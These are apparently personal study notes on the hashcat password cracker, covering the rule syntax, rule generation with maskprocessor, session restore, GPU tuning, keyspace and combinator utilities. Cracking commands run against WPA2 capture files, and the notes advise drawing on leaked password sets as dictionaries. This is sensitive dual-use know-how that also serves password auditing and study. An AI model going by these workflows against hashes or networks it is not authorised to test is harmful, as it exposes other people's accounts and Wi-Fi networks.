word + rule: ^0^0^0^0 results in: "0000word" but still gets rejected.
Not a bug, it's a feature! Really, you can use hashcat in --stdout mode and pipe it to another hashcat session in stdin mode. Then it will work. Something like this:
`$ ./hashcat wordlist.txt -r rule.txt | ./hashcat -m 2500 mywpa.hccap -w 3`
#### Description
The rule-based attack is one of the most complicated of all the attack modes. The reason or this is very simple. The rule-based attack is like a programming language designed for password candidate generation. It has functions to modify, cut or extend words and has conditional operators to skip some, etc. That makes it the most flexible, accurate and efficient attack.
#### Why not stick to regular expressions
Why re-invent the wheel? Simple answer: regular expressions are too slow. Typically we have to generate 1,000,000,000 (or more) fresh password candidates in less than 10 ms before hashing algorithms start to become idle, and then again and again, second after second. Just take a look at your GPU speed display to get an idea of it.
#### Compatibility to other rule engines
The rule-engine in Hashcat was written to that all functions that share the same letter-name are 100% compatibility to John the Ripper and PasswordPro rules and vice versa. Later we started to introduce some of our own functions that are not compatible. But these functions got their own letter-names to avoid conflicts.
####Implemented compatible functions

Name|Function|Description|Example Rule|Input Word|Output Word|Note
--|--|--|--|--|--|--
Nothing|:|do nothing|:|p@ssW0rd|p@ssW0rd|
Lowercase|l|Lowercase all letters|l|p@ssW0rd|p@ssw0rd|
Uppercase|u|Uppercase all letters|u|p@ssW0rd|P@SSW0RD|
Capitalize|c|Capitalize the first letter and lower the rest|c|p@ssW0rd|P@ssw0rd|
Invert Capitalize|C|Lowercase first found character,uppercase the rest|C|p@ssW0rd|p@SSW0RD|
Toggle Case|t|Toggle the case of all characters in word|t|p@ssW0rd|P@SSw0RD|
Toggle @|TN|Toggle the case of characters at position N|T3|p@ssW0rd|p@sSW0rd|*
Reverse|r|Reverse the entire word|r|p@ssW0rd|dr0Wss@p|
Duplicate|d|Duplicate the entire word|d|p@ssW0rd|p@ssW0rdp@ssW0rd|
Duplicate N|pN|Append duplicated word N times|p2|p@ssW0rd|p@ssW0rdp@ssW0rdp@ssW0rd|
Reflect|f|Duplicate word reversed|f|p@ssW0rd|p@ssW0rddr0Wss@p|
Rotate Left|{|Rotates the word left|{|p@ssW0rd|@ssW0rdp|
Rotate Right|}|Rotates the word right|}|p@ssW0rd|dp@ssW0rd|
Append Character|$X|Append character X to end|$1|p@ssW0rd|p@ssW0rd1|
Prepend Character|^X|Prepend X to front|^1|p@ssW0rd|1p@ssW0rd|
Truncate left|[|Deletes first character|[|p@ssW0rd|@ssW0rd|
Truncate right|]|Deletes last character|]|p@ssW0rd|p@ssW0r|
Delete @ N|DN|Deletes character at position N|D3|p@ssW0rd|p@sW0rd|*
Extract range|xNM|Extracts M characters, starting at position N|x04|p@ssW0rd|p@ss|*
Omit range|ONM|Deletes M characters, starting at position N|O12|p@ssW0rd|psW0rd|*
Insert @ N|iNX|Inserts character X at position N|i4!|p@ssW0rd|p@ss!W0rd|*
Overwrite @ N|oNX|Overwrites character at position N with X|o3$|p@ssW0rd|p@s$W0rd|*
Truncate @ N|'N|Truncate word at position N|'6|p@ssW0rd|p@ssW0|*
Replace|sXY|Replace all instances of X with Y|ss$|p@ssW0rd|p@$$W0rd|
Purge|@X|Purge all instances of X|@s|p@ssW0rd|p@W0rd|+
Duplicate first N|zN|Duplicates first character N times|z2|p@ssW0rd|ppp@ssW0rd|
Duplicate last N|ZN|Duplicates last character N times|Z2|p@ssW0rd|p@ssW0rddd|
Duplicate all|q|Duplicate every character|q|p@ssW0rd|pp@@ssssWW00rrdd|
Extract memory|XNMI|Insert substring of length M starting from position N of word saved to memory at position I|lMX428|p@ssW0rd|p@ssw0rdw0|+
Append memory|4|Append the word saved to memory to current word|uMl4|p@ssW0rd|p@ssw0rdP@SSW0RD|+
Prepend memory|6|Prepend the word saved to memory to current word|rMr6|p@ssW0rd|dr0Wss@pp@ssW0rd|+
Memorize|M|Memorize current word|lMuX084|p@ssW0rd|P@SSp@ssw0rdW0RD|+
* `*` Indicates that N starts at 0. For character positions other than 0-9 use A-Z(A=10)
* `+` Indicates that this rule is implemented in hashcat only.
* `#` Changed in oclHashcat v1.37→ v1.38 and hashcat v0.51 → v0.52
#### Rules used to reject plains

Name|Function|Description|Example Rule|Note
--|--|--|--|--
Reject less|`<N`|Reject plains if their length is greater than N|`<G`|*
Reject greater|`>N`|Reject plains if their length is less or equal to N|`>8`|*
Reject equal|`_N`|Reject plains of length not equal to N|`_7`|*
Reject contain|`!X`|Reject plains which contain char X|`!z`|
Reject not contain|`/X`|Reject plains which do not contain char X|`/e`|
Reject equal first|`(X`|Reject plains which do not start with X|`(h`|
Reject equal last|`)X`|Reject plains which do not end with X|`)t`|
Reject equal at|`=NX`|Reject plains which do not have char X at position N|`=1a`|*
Reject contains|`%NX`|Reject plains which contain char X less than N times|`%2a`|*
Reject contains|`Q`|Reject plains where the memory saved matches current word|`rMrQ`|e.g. for palindrome
Note: Reject rules only work either with hashcat-legacy, or when using `-j` or `-k` with hashcat. They will not work as regular rules (in a rule file) with hashcat.
`*` Indicates that N starts at 0. For character positions other than 0-9 use A-Z (A=10)
#### Implemented specific functions
The following functions are not available in John the Ripper and/or PasswordsPro:

Name|Function|Description|Example Rule|Input Word|Output Word|Note
--|--|--|--|--|--|--
Swap front|k|Swap first two characters|k|p@ssW0rd|@pssW0rd|
Swap back|K|Swap last two characters|K|p@ssW0rd|p@ssW0dr|
Swap @ N|*NM|Swaps character at position N with character at position M|*34|p@ssW0rd|p@sWs0rd|*
Bitwise shift left|LN|Bitwise shift left character @ N|L2|p@ssw0rd|p@æsW0rd|*
Bitwise shift right|RN|Bitwise shift right character @ N|R2|p@ssW0rd|p@9sW0rd|*
Ascii increment|+N|Increment character @ N by 1 ascii value|+2|p@ssW0rd|p@tsW0rd|*
Ascii decrement|-N|Decrement character @ N by 1 ascii value|-1|p@ssW0rd|p?ssW0rd|*
Replace N+1|.N|Replaces character @ N with value at @ N plus 1|.1|p@ssW0rd|psssW0rd|*
Replace N-1|,N|Replaces character @ N with value at @ N minus 1|,1|p@ssW0rd|ppssW0rd|*
Duplicate block front|yN|Duplicates first N characters|y2|p@ssW0rd|p@p@ssW0rd|*
Duplicates block back|YN|Duplicates last N characters|Y2|p@ssW0rd|p@ssW0rdrd|*
Title|E|Lower case the whole line, then upper case the first letter and every letter after a space|E|p@ssW0rd w0rld|P@ssw0rd W0rld|*
Title w/separator|eX|Lowercase the whole line, then upper case the first letter and every letter after a custom separator character|e-|p@ssW0rd-w0rld|P@ssw0rd-W0rld|+
* `*` Indicates that N starts at 0. For character positions other than 0-9 use A-Z (A=10)
* `+` Only in JtR?
#### Writing rules
The most important thing in writing rules is knowing what you want to write.That typically means you have to analyze dozens of plaintext passwords, maybe from a customer, to see a pattern. For example, a common pattern is that people append a digit to their passwords to improve its strength. So we have two "parameters":
* We want to append something.
* The value we want to append is a *digit*.
If we take a look at the function overview we see that we can append something using the `$` function. So, for example, if we want to add a "1" to our password, we write a rule that looks like this.
`$1`
Simple enough. But what if we want to do all numbers 1-9? Well that's what we call a Hybrid attack, just take a look at this page.
Also note:
* Whites spaces are ignored as long as they are not used as a parameter. That enables formating of our "source code" a bit.
* To comment out some text, it has to start with a `#` char.
#### Generating rules
There are two ways to automatically "generate" rules.
* Using the maskprocessor, we have a dedicated article on this topic here: [Using maskprocessor to create rules](https://hashcat.net/wiki/doku.php?id=rules_with_maskprocessor)
* Using random rules
##### Using maskprocessor to generate rules
Let's suppose you want to make a rule which adds 3 digits after each words of your dict, and save the rules in a file called "append_3_digits.rule".
###### By hand

        $ vim append_3_digits.rule
        $0 $0 $0
        $0 $0 $1
        $0 $0 $2
        $0 $0 $3
        $0 $0 $4
        $0 $0 $5
        $0 $0 $6
        $0 $0 $7
        $0 $0 $8
        $0 $0 $9
        $0 $1 $0
        $0 $1 $1
        and so on...
As you can see, creating rules by hand could be very boring and time-consuming :p

        $ cat append_days.rule
        $0 $1
        $0 $2
        $0 $3
        $0 $4
        $0 $5
        $0 $6
        $0 $7
        $0 $8
        $0 $9
        $1 $0
        $1 $1
        $1 $2
        $1 $3
        $1 $4
        $1 $5
        $1 $6
        $1 $7
        $1 $8
        $1 $9
        $2 $0
        $2 $1
        $2 $2
        $2 $3
        $2 $4
        $2 $5
        $2 $6
        $2 $7
        $2 $8
        $2 $9
        $3 $0
        $3 $1

        $ cat prefix_days.rule
        ^0 ^1
        ^0 ^2
        ^0 ^3
        ^0 ^4
        ^0 ^5
        ^0 ^6
        ^0 ^7
        ^0 ^8
        ^0 ^9
        ^1 ^0
        ^1 ^1
        ^1 ^2
        ^1 ^3
        ^1 ^4
        ^1 ^5
        ^1 ^6
        ^1 ^7
        ^1 ^8
        ^1 ^9
        ^2 ^0
        ^2 ^1
        ^2 ^2
        ^2 ^3
        ^2 ^4
        ^2 ^5
        ^2 ^6
        ^2 ^7
        ^2 ^8
        ^2 ^9
        ^3 ^0
        ^3 ^1

        $ cat append_months.rule
        $0 $1
        $0 $2
        $0 $3
        $0 $4
        $0 $5
        $0 $6
        $0 $7
        $0 $8
        $0 $9
        $1 $0
        $1 $1
        $1 $2

        $ cat prefix_months.rule
        ^0 ^1
        ^0 ^2
        ^0 ^3
        ^0 ^4
        ^0 ^5
        ^0 ^6
        ^0 ^7
        ^0 ^8
        ^0 ^9
        ^1 ^0
        ^1 ^1
        ^1 ^2

        $ cat append_single_days.rule
        $1
        $2
        $3
        $4
        $5
        $6
        $7
        $8
        $9

        $ cat prefix_single_days.rule
        ^1
        ^2
        ^3
        ^4
        ^5
        ^6
        ^7
        ^8
        ^9

        $ cat append_single_months.rule
        $1
        $2
        $3
        $4
        $5
        $6
        $7
        $8
        $9

        $ cat prefix_single_months.rule
        ^1
        ^2
        ^3
        ^4
        ^5
        ^6
        ^7
        ^8
        ^9

        $ hashcat64.exe -D 2 1.txt -r append_months.rule -r append_days.rule --stdout > months_days.txt
        $ hashcat64.exe -D 2 1.txt -r append_single_months.rule -r append_single_days.rule --stdout >> months_days.txt
        $ hashcat64.exe -D 2 1.txt -r append_months.rule -r append_single_days.rule --stdout >> months_days.txt
        $ hashcat64.exe -D 2 1.txt -r append_single_months.rule -r append_days.rule --stdout >> months_days.txt

        $ cat append_19years.rule
        $4 $?d
        $5 $?d
        $6 $?d
        $7 $?d
        $8 $?d
        $9 $?d
Note: There is `-r` before each rule.
###### [Using maskprocessor](https://hashcat.net/wiki/doku.php?id=maskprocessor)
[Download](https://github.com/hashcat/maskprocessor/releases/)
`$ ./map64.bin -o append_3_digits.rule '$?d $?d $?d'`
maskprocessor allows you to easily and quickly generate rule files.
Syntax:
* `$` is the function to append a char
* `?d` is the digits charset
###### Example Commands
Here are some example commands to enable you to generate common rules locally on your own computer.

        mp64.exe -1 0123456789 "^?1^?1^?1" -o Prefix-0-999.rule
        mp64.exe -1 0123456789 "l^?1^?1^?1" -o Lower-All-Prefix-0-999.rule
        mp64.exe -1 0123456789 "c^?1^?1^?1" -o Upper-First-Prefix-0-999.rule
        mp64.exe -1 0123456789 "d^?1^?1^?1" -o Double-Word-Prefix-0-999.rule

        mp64.exe -1 0123456789 "$?1$?1$?1" -o Suffix-0-999.rule
        mp64.exe -1 0123456789 "l$?1$?1$?1" -o Lower-All-Suffix-0-999.rule
        mp64.exe -1 0123456789 "c$?1$?1$?1" -o Upper-First-Suffix-0-999.rule
        mp64.exe -1 0123456789 "u$?1$?1$?1" -o Upper-All-Suffix-0-999.rule
        mp64.exe -1 0123456789 "d$?1$?1$?1" -o Double-Word-Suffix-0-999.rule
* Paste them into a text file and name it "Hashcat Rule Generator.cmd".
* Place this new file in the same directory as maskprocessor and double left click it.
* Sometimes `mp64.bin` cannot work perfectly. It is because `$` should be escaped as `\$` in Ubuntu (no need to be escaped in Windows). And there is every `\$` before one character.
    * `./maskprocessor-0.73/mp64.bin -1 456789 -2 0123456789 "\$?1\$?2" -o append_19years.rule`
        `J:\hashcat-5.0.0>hashcat64.exe -D 2 -a 0 1.txt -r append_19years.rule --stdout > 19years.txt`
    * `./maskprocessor-0.73/mp64.bin -1 456789 -2 0123456789 "\$1\$9\$?1\$?2" -o append_19+years.rule`
        `J:\hashcat-5.0.0>hashcat64.exe -D 2 -a 0 1.txt -r append_19+years.rule --stdout > 19+years.txt`
    * `./maskprocessor-0.73/mp64.bin -1 01 -2 0123456789 "\$?1\$?2" -o append_20years.rule`
        `J:\hashcat-5.0.0>hashcat64.exe -D 2 -a 0 1.txt -r append_20years.rule --stdout > 20years.txt`
    * `./maskprocessor-0.73/mp64.bin -1 01 -2 0123456789 "\$2\$0\$?1\$?2" -o append_20+years.rule`
        `J:\hashcat-5.0.0>hashcat64.exe -D 2 -a 0 1.txt -r append_20+years.rule --stdout > 20+years.txt`
    * `cat *years*.txt > years.txt`
You should very quickly be presented with a group of commonly used password modifications. Each rule file is individually named to help you understand its function.

###### Limitation
On Windows, when trying to insert the `^` character, enclose it in quotes. `^` is an escape character in the Windows command shell, and will not be printed unless quoted.
Example:
`mp32.exe -1 0123456789 "^"?1"^"?1"^"?1 -o "Prefix 0-999.rule"`
NOT
`mp32.exe -1 0123456789 ^?1^?1^?1 -o "Prefix 0-999.rule"`
##### Random rules
This is a very unique hashcat feature. With hashcat you can generate random rules on the fly to be used for that session. This is a good thing if you are out of ideas on what to do next when you have already tried all your rules on all your dictionaries. There are three configuration parameters:
Tells hashcat to generate NUM rules to be applied to each attempt:
`--generate-rules=NUM`
Specifies the number of functions that should be used (minimum to maximum range):
`--generate-rules-func-min=NUM`
`--generate-rules-func-max=NUM`
This number can be unlimited but large numbers are not recommended. When used in conjunction with -g, any rule outside of this setting will be ignored.
For example, it could randomly generate the rules "l r", "l ^f", and "sa@", these are all valid rules to be used. However, "l ^f sa@ r $3" would be ignored as it contains 5 functions. Default: min=1 max=4
You can mix your rules from a rules-file with randomly generated rules. For example, if your rules-file contains 200 rules and you use `-g 500`, it will generate 300 additional rules.
#### Debugging rules
With hashcat we can debug our rules easily. That means we can verify that the rule we wrote actually does what we want it to do. All you need to use is the `--stdout` switch and omit the hashlist.
Here is an example:
Create simple dictionary:
`$ echo WORD > word`
Generate a simple rule. The "c" rule capitalizes the first letter and lower-cases the rest.
`$ echo c > rule`
And that's how we see the generated debug output:
`$ ./hashcat-cli64.bin -r rule --stdout word`
`Word`
This "feature" is also a very fast password candidate generator. That means that if we have some external program that supports reading from stdin we can feed it with our output.
Note: `--stdout` must be used with CPU, not GPU. However, only `-D 2` (device-type 2 stands for GPU) with `--stdout` works.
#### Multi-rules
With release of old oclHashcat-plus v0.07 a complete new feature in the rule-based cracking world was added.
Instead of just giving one `-r` parameter and a file, you can now add as many `-r`s as you want.
They are not executed in a sequence!
Each rule of each rule-file is combined with each rule of each rule-file. This way you can easily cook you own attack mode.

        $ cat 123.rule
        $1
        $2
        $3

        $cat abc.rule
        $a
        $b
        $c

        $ hashcat --stdout -r 123.rule -r abc.rule wordlist
        hashcat1a
        hashcat2a
        hashcat3a
        hashcat1b
        hashcat2b
        hashcat3b
        hashcat1c
        hashcat2c
        hashcat3c

        $ hashcat64.exe -D 2 -r l.rule J:\dictionaries\1\name_cn.txt --stdout > lname.txt
        $ hashcat64.exr -D 2 -r c.rule J:\dictionaries\1\lname.txt --stdout > cname.txt
Because the total number of generated rules is the product of all list, stacking multiple large lists can quickly exceed available memory. But a few well-chosen rules can be stacked to great effect.
#### Using existing rule files

        ls -l /usr/share/hashcat/rules/
        total 2412
        -rw-r--r-- 1 root root    284 Dec  4  2015 best64.rule
        -rw-r--r-- 1 root root    692 Dec  4  2015 combinator.rule
        -rw-r--r-- 1 root root 242503 Dec  4  2015 d3ad0ne.rule
        -rw-r--r-- 1 root root 973248 Dec  4  2015 dive.rule
        -rw-r--r-- 1 root root  92810 Dec  4  2015 generated.rule
        -rw-r--r-- 1 root root 324926 Dec  4  2015 Incisive-leetspeak.rule
        -rw-r--r-- 1 root root  42026 Dec  4  2015 InsidePro-HashManager.rule
        -rw-r--r-- 1 root root  22963 Dec  4  2015 InsidePro-PasswordsPro.rule
        -rw-r--r-- 1 root root    327 Dec  4  2015 leetspeak.rule
        -rw-r--r-- 1 root root  37939 Dec  4  2015 Ninja-leetspeak.rule
        -rw-r--r-- 1 root root   1536 Dec  4  2015 oscommerce.rule
        -rw-r--r-- 1 root root 331161 Dec  4  2015 rockyou-30000.rule
        -rw-r--r-- 1 root root   1774 Dec  4  2015 specific.rule
        -rw-r--r-- 1 root root  68087 Dec  4  2015 T0XlC-insert_00-99_1950-2050_toprules_0_F.rule
        -rw-r--r-- 1 root root   2508 Dec  4  2015 T0XlC-insert_space_and_special_0_F.rule
        -rw-r--r-- 1 root root  36039 Dec  4  2015 T0XlC-insert_top_100_passwords_1_G.rule
        -rw-r--r-- 1 root root  38904 Dec  4  2015 T0XlC.rule
        -rw-r--r-- 1 root root 116633 Dec  4  2015 T0XlCv1.rule
        -rw-r--r-- 1 root root     60 Dec  4  2015 toggles1.rule
        -rw-r--r-- 1 root root    690 Dec  4  2015 toggles2.rule
        -rw-r--r-- 1 root root   4330 Dec  4  2015 toggles3.rule
        -rw-r--r-- 1 root root  17980 Dec  4  2015 toggles4.rule
        -rw-r--r-- 1 root root  54016 Dec  4  2015 toggles5.rule

### ???How to process more than one hash files???
The new version of Hashcat is designed to run on GPUs an is designed to only process a single hash file so that's not quite practical though there are scenarios where you may want to actually only try to crack one password hash it is not a situation it is all that comment.
Currently, oclHashcat-plus does not support multiple WPA2 hashes in a single instance. One way to work around this is to have three separate instances. So basically:
1. Have three separate directories with oclHashcat-plus or Hashcat.
2. Launch the processes in parallel. Make sure that all of them have drastically lowered `-n` and `-u` values.
If you are using CPU Hashcat, do the same thing but adjust the `-n` parameter only.
This is  totally inefficient but should work.
### run Hashcat dynamically???
So here's the process I go through. I define a sequence of jobs I want to run. By jobs I really mean what kind of rules and attack types I want to perform. I then analyze the results both at the end of the run and during the run. I don't like to wait till the end of the run necessarily if the run's going to take a long time. So I don't want to run something for eight hours and find out it was going to crack zero password. So what I've done is I've created a bash script that check every 15 seconds to see how many passwords has been cracked at what frequency and whether that frequency over that increment of time overall is increasing, decreasing going down to zero. So I can continue a run or I can suspend it or terminate it based on how successful it is or I can resume it in a later time. So that allows me to eliminate or adjust jobs based on the results but where it gets even more dynamic is I can create new dictionaries either during a run or after a run based on the output of the other one. So the output what is looks like? The output is going to be a file that has a hash in it and on the same line it's going to have the plaintext password that was cracked. There's some other things you can have included it too, like the hash version of that really depends on that your needs are and then I rerun the jobs based on the new dictionaries I created and the new rules I determine will be beneficial. So a dictionary my just be the passwords that I've cracked. So I could if I cracked half a million passwords out of eHarmony I may add those to my initial dictionary file which can consist of dictionaries of English words, dictionaries of words from other languages. So other password leaks are really a good source of password dictionaries.
### Suspend and Resume a session
#### Description
The .restore file format is a custom format,specifically developed for hashcat. hashcat supports resuming cracking jobs for each and every hash type, attack mode, input type (even stdin) etc. It doesn't even matter why the job was stopped as long as you have a .restore file with all the information needed for hashcat to continue cracking (and the directories/dictionaries/masks/rules/hashes/hash files etc  used within the original cracking job). No matter if you had a power failure or you just stopped the cracking job because you wanted to sleep near your hardware, with `--restore` you should be able to resume the cracking job.
It's important to know that the .restore file will be updated whenever this line is the status screen changes:
`Restore.Point...:`
...and **not** whenever this line changes (hashcat needs to reach the next restore checkpoint):
`Progress......:`
The second important thing to note is that quitting hashcat via the **Checkpoint stop** feature, by hitting 'c', will wait until the restore file has been updated to quit, whereas forcing hashcat to quit by hitting 'q' will not. By using 'q' instead of 'c' you run the risk of losing progress due to the restore file having not been recently updated.
When pressing 'c', you will be prompted with "Check point enabled. Will quit at next restore-point update."
The .restore file will be automatically deleted whenever the full cracking job was finished (exhausted) or whenever every hash within the hash list was cracked.
To disable the restore support you can use `--restore-disable`. If you want to specify a different path to the restore file you can use `--restore-file-path`.???
#### Restore howto
Consider that you used this command line to start a cracking job:
`hashcat -m 0 -a 3 --sessin session_name example0.hash masks/rockyou-7-2592000.hcmask`
and you hit 'c' (or 'q' for quit) while it was running ( or it was stopped/killed for some other reasons).
This command resumes the above cracking job:
`hashcat --session session_name --restore`
The `--restore` command does not need nor allow any further arguments except from `--session` (and `--restore` itself). You cannot simply add or change some arguments when you restore the job. If you really insist to changes any arguments, you might be able to use some external tools (like analyze_hc_restore) at your own risk.
`––session WPA2session1` – This gives your “session” a name in the event you want to pause and come back to where you left off. More about that in a little bit.
#### Saving the restore file
* Saving the restore file under a custom directory
    `hashcat64.exe -a 3 -m 2500  E:\cap\TP-LINK_54AA-01\TP-LINK_54AA-01.hccapx ?d?d?d?d?d?d?d?d --session test_session --restore-file-path E:\cap\test_session.restore`
    Without `--restore-file-path E:\cap\test_session.restore`, the .restore file will be saved under the current directory as <session_name>.restore.
* Restore the process
    `hashcat64.exe --session test_session --restore --restore-file-path E:\cap\test_session.restore`
    Without `--restore-file-path E:\cap\test_session.restore`, the restore process will search for <session_name>.restore file.
    The only parameters allowed when restoring a session are:
    * `--restore`(required): tell hashcat that it should restore a previous session.
    * `--session`(optional):specify the session name of the previous session that hashcat should restore
    Note: if you did use `--session` when starting the cracking job, you also need to use `--session` with the same session name to restore it.
    Further parameters and switches are currently not allowed, e.g. you can't simply add `-w 3` when restoring (i.e. `--restore -w 3`) because it will be ignored.
### Run Hashcat dynamically

### 关于GPU参数优化 [ 这次根本没用到 ]和自定义破解规则[比较复杂,但更智能灵活,可这也就意味着速度就..嘿嘿,你懂的]方面的东西,这里暂时就不提了,仅仅作为hash破解入门,这些差不多足以应对你日常的各种破解需求了
### 关于在实际破解中自己的一些建议,暂以大批量hash爆破为例[事先没有任何密码规律可循,只能盲测的那种情况]
* 首先,弱口令字典先走一遍再说
* 其次,跑掩码,把所有想跑的掩码全部事先放到.hcmask文件中,然后加载它自动跑,上面已有介绍
* 或者,如果只是针对单条hash,在上述方法都跑不出来的情况下,可以去仔细分析下目标的密码设置规律,再尝试组合,可能效率会高一点,但那也只是可能
* 最后,如果你自己真的有能力,可以想办法把它做成分布式快速hash破解产品[密码机],然后拿到市面上去卖,也是完全可行的,毕竟已经有很多成功的案例,只不过你可能更多应该考虑下怎么比别人做的效率更高,更易用,不然,很难有市场
### HashCat参数优化
HashCat本身考虑到系统资源的分配，默认参数下并没有最大化的来使用硬件资源。如果我们想要让破解速度最大化，就需要对一些参数进行配置。
#### for new versions
* `-w 1`: Watch movies or play games (even such that require high FPS count), lowest performance
* `-w 2`: Normal desktop operations or "economic" mode (like internet browsing, texteditor, etc), default setting
* `-w 3`: Headless systems or dedicated cracking systems, highest performance
#### 1.Workload tuning 负载调优。
该参数支持的值有1,8,40,80,160
`--gpu-accel 160`
可以让GPU发挥最大性能。
#### 2.Gpu loops 负载微调
该参数支持的值的范围是8-1024（有些算法只支持到1000）。
`--gpu-loops 1024`
可以让GPU发挥最大性能。
#### 3.Segment size 字典缓存大小
该参数是设置内存缓存的大小，作用是将字典放入内存缓存以加快字典破解速度，默认为32MB，可以根据自身内存情况进行设置，当然是越大越好XD。
`--segment-size 512`
可以提高大字典破解的速度。

### choose devices, device-types, and platforms
!!! hashcat --help | grep "device\|platform"
Please don't confuse OpenCL platforms (Intel OpenCL CPU driver, Intel GPU driver, nvidia OpenCL GPU driver, AMD OpenCL CPU driver, AMD OpenCL GPU drivers, pocl opencl drivers, mesa...) with oclHashcat's device types (selected by `-D`: CPU, GPU, FPGA, DSP, Co-Processor) or confuse it even the selection of the device (`-d`) from a list of OpenCL devices.
These are all different concepts and it clearly says that the output is a list of different OpenCL platforms (OpenCL Platform #...), while you specified a selection of "device types" on the command line.
If in doubt, it should be enough to jsut have a glance at the `--help` output: it even list and explains all the "device types" (the current output is):

        - [OpenCL Device Types]-

          # | Device Type
        ===+|=====================
        1   | CPU
        2   | GPU
        3   | FPGA, DSP, Co-Processor
The list of platforms won't (and probably can't easily) be exactly ordered by the device types...these are different concepts and, for instance, you could have many platforms of the same device type etc.
The only thing one could ask is "Why did oclHashcat's devs define opencl-device-type 1 as CPU devices, while most opencl drivers ordering of platform IDs start with all GPU devices?"...Well, also this might depend on your hardware and probably other factors (like which version of opencl drivers you've installed etc).
I would just recommend that we shouldn't care about this ordering of platforms too much, but remember that:
1. by selecting the opencl device types you choose between CPU, GPU, FPGA (multiple choices possible),
2. the list of platforms depend on the drivers installed (can even be multiple drivers for a single device, like AMD OpenCL CPU driver and native OpenCL Intel driver for the same OpenCL-compatible CPU) and hence the ICDs found on the system
3. and ultimately the user can select (from the "filtered" list) the device with the `--opencl-devices` (`-d`) command lien argument.

Command line|Example|Description
--|--|--
`-I`, `--opencl-info`|`-I`|Show information about detected OpenCL platforms/devices
`--opencl-platforms`|`--opencl-platforms=2`|OpenCL platforms to use, separated with commas
`-D`, `--opencl-device-types`|`-D 1`|OpenCL device-types to use, separated with commas
`-d`, `--opencl-devices`|`-d 1`|OpenCL devices to use, separated with commas
Note: Use `--force` with the command.
### Benchmark
`hashcat --benchmark`
`hashcat -b -m 2500`
This will take a while as Hashcat can crack a wide variety of hash types. What benchmark does is it will simulate a quick session which each of the types of hash it can handle. After each session/hash type Hashcat will display the results in the terminal. Set your results aside for comparison when it’s done. In the meantime lets fire up the same thing on our EC2 instance.
Keep in mind the following when comparing:

* H/s == Hashes per second
* KH/s == Kilohashes per second (Thousands of hashes per second)
* MH/s == Megahashes per second (Millions of hashes per second)
### [Utilities](https://hashcat.net/wiki/doku.php?id=hashcat_utils)
[Download](https://github.com/hashcat/hashcat-utils/releases/tag/v1.9)
#### cap2hccapx
#### combinator

        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ cat dic1
        admin
        root
        user
        master
        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ cat dic2
        pass
        toor
        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ ./hashcat-utils-1.9/bin/combinator.bin dic1 dic2
        adminpass
        admintoor
        rootpass
        roottoor
        userpass
        usertoor
        masterpass
        mastertoor

Pipe to hashcat:
        `J:\hashcat-5.0.0>hashcat-utils-1.9\bin\combinator.exe dic1 dic2 | hashcat64.exe --force -d 3 -m 2500 -a 0 J:\cap\TP-LINK_54AA-01\TP-LINK_54AA-01.hccapx` (This will not work as expected.)
This program is a stand-alone implementation of the Combinator Attack.
Each word from file2 is appended to each word from file1 and then printed to STDOUT.
Since the program is required to rewind the files multiple times it cannot work with STDIN and requires real files.
Another option would be to store all the content from both files in memory. However in hash-cracking we usually work with huge files, resulting in a requirement that the size of the files we use does matter.
#### combinator3

        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ cat dic1
        admin
        root
        user
        master
        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ cat dic2
        pass
        toor
        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ cat dic3
        3
        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ ./hashcat-utils-1.9/combinator3.bin dic1 dic2 dic3
        bash: ./hashcat-utils-1.9/combinator3.bin: No such file or directory
        cdutboy@ubuntu:/mnt/hgfs/J/hashcat-5.0.0$ ./hashcat-utils-1.9/bin/combinator3.bin dic1 dic2 dic3
        adminpass3
        admintoor3
        rootpass3
        roottoor3
        userpass3
        usertoor3
        masterpass3
        mastertoor3
Pipe to hashcat:

        J:\hashcat-5.0.0>hashcat-utils-1.9\bin\combinator3.exe dic1 dic2 dic3 | hashcat64.exe --force -d 3 -m 2500 -a 0 J:\cap\TP-LINK_54AA-01\TP-LINK_54AA-01.hccapx
### keyspace
Keyspace is the term used to refer to the number of possible combinations for a specified attack. In hashcat, it has a special meaning that is not exactly the same as the usual meaning. The output of `--keyspace` is designed to be used to distribute cracking, i.e. you can use the value from `--keyspace` and divide it into x chunks (best would be if the chunk size depends on the performance of your individual nodes if they are different) and use the `-s/-l` parameters for distributed cracking.
To tell devices which candidates to generate on GPU, hashcat keeps track of some of the candidates on the host. To do this, there are two loops: a loop that runs on the host (the "base loop"), and a loop that runs on the device (the "mod(ifier) loop.")
To work between multiple compute nodes, hashcat must divide up and distribute portions of the base loop. This is where `--keyspace`, `-s`, and `-l` come to play. `--keyspace` reports the size of the base loop that executes on the host so that we know how to divide up the work. `-s` and `-l` control the start/stop positions of the base loop.
In other words, **hashcat's `keyspace` is specially designed to optimize distribution of work, and is not a literal representation of the total possible keyspace for a given attack.**
**hashcat**
* `-a 0`- number of words in wordlist
* `-a 0 + rules`- number of words in wordlist
* `-a 1`- number of words of the larger words list out of the 2 word lists specified (left_wordlist, right_wordlist)
* `-a 3`- multiply the number of possible characters in each mask position for the base loop mask, excluding the mod loop mask - please just use `--keyspace` switch :)
* `-a 6`- number of words in wordlist
* `-a 7`- number of words in wordlist
You can calculate the keyspace for a specific attack with the following syntax:
`$ ./hashcat64.bin -m 0 -a 0 example dict -r rules/best64.rule --keyspace`
`129988`

        ./hashcat64.bin --force -m 2500 TP-LINK_54AA-01.hccapx -a 1 shengmu.txt shengmu.txt

        Dictionary cache hit:
        * Filename..: shengmu.txt
        * Passwords.: 99300
        * Bytes.....: 506216
        * Keyspace..: 9860490000
99300*99300=9860490000
### about pipe???
* `|` can only work for `-a 0` (straight) mode
* `mkfifo blah` cannot work for `-a 0` (straight) mode or `-a 6` (hybrid dic+mask) mode either.
    * when using `mkfifo blah` on `-a 1` or `-a 7` mode will get the `Not a regular file` error.???
* use `|` as much as possible, not `mkfifo blah`
* `mkfifo` can only work as expected for `combinator.bin`, not for `hashcat64.bin`.
    

        ubuntu@ip-172-31-88-33:~/hashcat-5.0.0$ rm blah && mkfifo blah && ./hashcat-utils-1.9/bin/combinator.bin dic1 dic2 > blah | ./hashcat-utils-1.9/bin/combinator.bin blah dic3
        dic11dic21dic31
        dic11dic21dic32
        dic11dic21dic33
        dic11dic22dic31
        dic11dic22dic32
        dic11dic22dic33
